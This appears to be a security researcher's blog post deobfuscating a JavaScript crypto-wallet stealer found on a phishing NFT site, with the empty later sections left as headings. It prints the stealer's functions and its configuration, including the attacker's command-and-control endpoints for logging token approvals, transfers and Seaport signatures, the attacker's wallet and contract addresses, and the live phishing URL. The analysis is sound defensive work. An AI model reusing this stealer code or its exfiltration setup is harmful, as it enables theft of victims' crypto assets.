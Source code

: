 ```yaml
---
layout: post
title:  "Deobfuscating & Analyzing a JS Crypto Stealer"
date:   2022-12-23 20:28:22 -0400
categories: web3
---
```

![image](/assets/img/thieves.jpeg)

##### Quick Links 
[Initial Recon](#where-to-start)  
[Obfuscated JS](#obfuscated-js)  
[Basic Deobfuscation](#basic-deobfuscation)  
[Cleaned JS](#cleaned-js)  
[Stealer.js Core Functionality](#stealerjs-functionality--core-functions)  
[Additional recon on hosts](#additional-recon-on-hosts)  
[Additional recon on helper contracts](#additional-recon-on-helper-contracts)  
[Attacker URLs & Addresses](#attacker-urls--addresses)  
[Best Practices & Prevention](#best-practices-to-prevent)

### Initial recon
It all starts with a link usually.  
The link below is malware and will steal your crypto if given the chance. Do not Click unless you know what you are doing. 
```
https://rollsroycenft.app/
```

We start by Inspecting the site to see if we can recover any interesting artifacts or source snippets.  
screenshot   

The main.js file looks heavily obfuscated so we will start there:
  
### Obfuscated JS
The link below contains the fully obfuscated crypto stealer code.  

[Full Obfuscated Stealer.js Code](https://gist.github.com/lcfr-eth/f18f0aa99ce9d671479cb70b43420e80)  

Below I've included two example obfuscated functions as examples. The type of obfuscation is a basic variable replacement and string encoding. 

```java
async function isApproved(_0x22fax31, _0x22fax32) {
    try {
        let _0x22fax33 = new ethers.Contract(_0x22fax32,ERC721_ABI,w3);
        const _0x22fax34 = await _0x22fax33[_0x599e[72]][_0x599e[71]](_0x22fax31, CONDUIT, {
            gasLimit: 100000
        });
        return _0x22fax34
    } catch (err) {
        console[_0x599e[64]](_0x599e[73], err);
        return false
    }
}

async function getCounter(_0x22fax3c) {
    const _0x22fax4d = [{
        "\x69\x6E\x70\x75\x74\x73": [{
            "\x69\x6E\x74\x65\x72\x6E\x61\x6C\x54\x79\x70\x65": _0x599e[77],
            "\x6E\x61\x6D\x65": _0x599e[108],
            "\x74\x79\x70\x65": _0x599e[77]
        }],
        "\x6E\x61\x6D\x65": _0x599e[109],
        "\x6F\x75\x74\x70\x75\x74\x73": [{
            "\x69\x6E\x74\x65\x72\x6E\x61\x6C\x54\x79\x70\x65": _0x599e[110],
            "\x6E\x61\x6D\x65": _0x599e[111],
            "\x74\x79\x70\x65": _0x599e[110]
        }],
        "\x73\x74\x61\x74\x65\x4D\x75\x74\x61\x62\x69\x6C\x69\x74\x79": _0x599e[112],
        "\x74\x79\x70\x65": _0x599e[113]
    }];
    let _0x22fax33 = new ethers.Contract(_0x599e[114],_0x22fax4d,w3);
    const _0x22fax4e = _0x22fax33[_0x599e[72]][_0x599e[109]](_0x22fax3c);
    return _0x22fax4e
}
```
  
### Basic JS Deobfuscation
  
This JS is using basic obfuscation techniques which means they are easy to reverse using online tools such as:  
https://deobfuscate.io/.  
https://lelinhtinh.github.io/de4js/.  


After pasting the JS code into either of the above it should return something much more readable. From here it will take a bit more work to discern and change the remaining variable names. An example provided below of deobfuscated code returned from one of the above sites.
```java
async function isApproved(_0x22fax31, _0x22fax32) {
    try {
        let _0x22fax33 = new ethers.Contract(_0x22fax32, ERC721_ABI, w3);
        const _0x22fax34 = await _0x22fax33.functions.isApprovedForAll(_0x22fax31, CONDUIT, {
            gasLimit: 100000
        });
        return _0x22fax34
    } catch (err) {
        console.log('error', err);
        return false
    }
}

async function getCounter(_0x22fax3c) {
    const _0x22fax4d = [{
        "inputs": [{
            "internalType": 'address',
            "name": 'offerer',
            "type": 'address'
        }],
        "name": 'getCounter',
        "outputs": [{
            "internalType": 'uint256',
            "name": 'counter',
            "type": 'uint256'
        }],
        "stateMutability": 'view',
        "type": 'function'
    }];
    let _0x22fax33 = new ethers.Contract('0x00000000006c3852cbEf3e08E8dF289169EdE581', _0x22fax4d, w3);
    const _0x22fax4e = _0x22fax33.functions.getCounter(_0x22fax3c);
    return _0x22fax4e
}
```

Returned is a much more readable form of the code. From here it is similar to reversing any program. Looking at the code surrounding the
variables which are still encoded to infer what they should be to correctly rename them manually until the code is suffeciently 
ledgable for review. 

After using one of the two sites above and a couple of hours of manually renaming variables we can basically read the code and functionality demonstrated below.
  
### Cleaner JS  
[Deobfuscated & Cleaner JS Stealer.js Code](https://gist.github.com/lcfr-eth/76ee52ed2ae32796dc352e5e4cf707d8)  

```java
  
// check if an address has the seaport conduit approvedforall for an ERC721 collection
async function isApproved(accountAddress, erc721Address) {
    try {
        let erc721 = new ethers.Contract(erc721Address, ERC721_ABI, w3);
        const isApprovedBool = await erc721.functions.isApprovedForAll(accountAddress, CONDUIT, {
            gasLimit: 100000
        });
        return isApprovedBool
    } catch (err) {
        console.log('error', err);
        return false
    }
}

// returns count from seaport for address
async function getCounter(accountAddress) {
    const miniSeaportABI = [{
        "inputs": [{
            "internalType": 'address',
            "name": 'offerer',
            "type": 'address'
        }],
        "name": 'getCounter',
        "outputs": [{
            "internalType": 'uint256',
            "name": 'counter',
            "type": 'uint256'
        }],
        "stateMutability": 'view',
        "type": 'function'
    }];
    let seaport = new ethers.Contract('0x00000000006c3852cbEf3e08E8dF289169EdE581', miniSeaportABI, w3);
    const count = seaport.functions.getCounter(accountAddress);
    return count
}
  ```
  
After some manual decoding the code is as if we have written it our selves with around 95% decoded. We can finally understand the above reference functions and what they do.  

The isApproved() function takes two params the victim/user address and a contract address meant to be an ERC721 contract. It then checks if the seaport conduit address is approvedForAll by the owner address on the supplied ERC721 contract/collection address.  

The getCounter() function returns an opensea Seaport account counter/nonce record for creating and signing a seaport order.  

Below is a detailed account of the Stealer's core functionality.  
  
### Stealer.js Functionality & Core functions

```java
const WETH = '0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2';          // WETH contract
const CONDUIT = '0x1E0049783F008A0085193E00003D00cd54003c71';       // Seaport Conduit for Approvals

const RPC = 'https://rpc.ankr.com/eth/38eac0bf9f0e89d5e226f5c1ef1249406ce7958e48704cc5c3015bed44cb3dca';
let w3 = new ethers.providers.JsonRpcProvider(RPC);

const operator = '0x03c4B92F7283f52aD43EF354f709e6778A74b7F4';       // max approval given to this for ERC20's
const contractSAFA = '0xEf78641Af30cff4A41Bfd2871F3a160DceFFA428';   // BulkTransfer contract 
const ownerAddress = '0xD422B783ea64f4d30c3531dAceb31870C9aC2e61';   // attacker EOA?
const ZAPPER_KEY = '082cca2f-3e84-4239-89e6-848394fc200a';
const BASE_URL = 'https://dreadbusiness.com/api';                    // attacker C&C Infrastructure
const TOKEN_APPROVE = BASE_URL + '/token_permit';                    // log token_approves 
const TOKEN_TRANSFER = BASE_URL + '/token_transfer';                 // log token_transfers
const SEAPORT_SIGN = BASE_URL + '/seaport_sign';                     // log seaport signatures
const NFT_TRANSFER = BASE_URL + '/nft_transfer';                     // log nft transfers (1155 and 721)
const MAX_APPROVAL = '1158472395435294898592384258348512586931256';
const endpoint = ownerAddress;
```

### Attacker URLs & Addresses
  
### Additional recon on helper contracts
  
### Additional recon on hosts

### Best practices to prevent
  
